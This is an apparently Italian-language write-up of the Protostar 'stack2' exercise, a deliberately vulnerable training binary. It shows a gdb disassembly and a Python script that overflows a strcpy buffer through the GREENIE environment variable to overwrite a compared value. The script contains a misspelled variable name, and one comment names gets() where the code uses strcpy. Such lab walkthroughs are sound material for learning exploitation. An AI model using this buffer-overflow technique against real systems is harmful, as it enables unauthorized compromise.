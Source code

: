 ````
proto@b92cf65f7998:/opt/protostar/bin$ gdb -q                                                      
(gdb) file stack2
Reading symbols from stack2...done.
(gdb) disass main
Dump of assembler code for function main:
   0x08048494 <+0>:	push   %ebp
   0x08048495 <+1>:	mov    %esp,%ebp
   0x08048497 <+3>:	and    $0xfffffff0,%esp
   0x0804849a <+6>:	sub    $0x60,%esp
   0x0804849d <+9>:	movl   $0x80485e0,(%esp)
   0x080484a4 <+16>:	call   0x804837c <getenv@plt>
   0x080484a9 <+21>:	mov    %eax,0x5c(%esp)
   0x080484ad <+25>:	cmpl   $0x0,0x5c(%esp)
   0x080484b2 <+30>:	jne    0x80484c8 <main+52>
   0x080484b4 <+32>:	movl   $0x80485e8,0x4(%esp)
   0x080484bc <+40>:	movl   $0x1,(%esp)
   0x080484c3 <+47>:	call   0x80483bc <errx@plt>
   0x080484c8 <+52>:	movl   $0x0,0x58(%esp)
   0x080484d0 <+60>:	mov    0x5c(%esp),%eax
   0x080484d4 <+64>:	mov    %eax,0x4(%esp)
   0x080484d8 <+68>:	lea    0x18(%esp),%eax
   0x080484dc <+72>:	mov    %eax,(%esp)
   0x080484df <+75>:	call   0x804839c <strcpy@plt>
   0x080484e4 <+80>:	mov    0x58(%esp),%eax
   0x080484e8 <+84>:	cmp    $0xd0a0d0a,%eax
   0x080484ed <+89>:	jne    0x80484fd <main+105>
   0x080484ef <+91>:	movl   $0x8048618,(%esp)
   0x080484f6 <+98>:	call   0x80483cc <puts@plt>
   0x080484fb <+103>:	jmp    0x8048512 <main+126>
   0x080484fd <+105>:	mov    0x58(%esp),%edx
   0x08048501 <+109>:	mov    $0x8048641,%eax
   0x08048506 <+114>:	mov    %edx,0x4(%esp)
   0x0804850a <+118>:	mov    %eax,(%esp)
   0x0804850d <+121>:	call   0x80483ac <printf@plt>
   0x08048512 <+126>:	leave  
   0x08048513 <+127>:	ret    
End of assembler dump.
````
Come in #stack1 abbiamo una compare
0x080484e8 <+84>:	cmp    $0xd0a0d0a,%eax
qua l'idea è di cambiare la variabile di ambiente per permettere che dentro ad essa ci sia il nostro payload di attacco.
La difficoltà è che 0xd0a0d0a rappresenta dei caratteri non stampabili, quindi c'è da trovare una soluzione differente.
L'idea è quella in primis con uno script python di settare la variabile di ambiente a nostro piacimento.
Questo è stato il mio riferimento
https://stackoverflow.com/questions/44479826/how-do-you-set-a-string-of-bytes-from-an-environment-variable-in-python
scrivere i byte diretti nella variabile di ambiente per poi passare i byte per pownare la macchina.

```` bash
(gdb) b *0x080484a4              # breakpoint ad una istruzione
(gdb) display /4wx *(int*)$esp   # guarda cosa punta esp
````
**exploit.py**
```` python
import os

junk = '\x41'                 # Junk to overflow the buffer (gets())
cmp = '\x0a\x0d\x0a\x0d'      # Value to pass the cmp instruction

# Prepare the env variable
os.environ["GREENIE"] = junk * 64 + cmp
print(os.environ["GRENIE"])

# Execute the binary inside this env
os.system("./stack2")
````
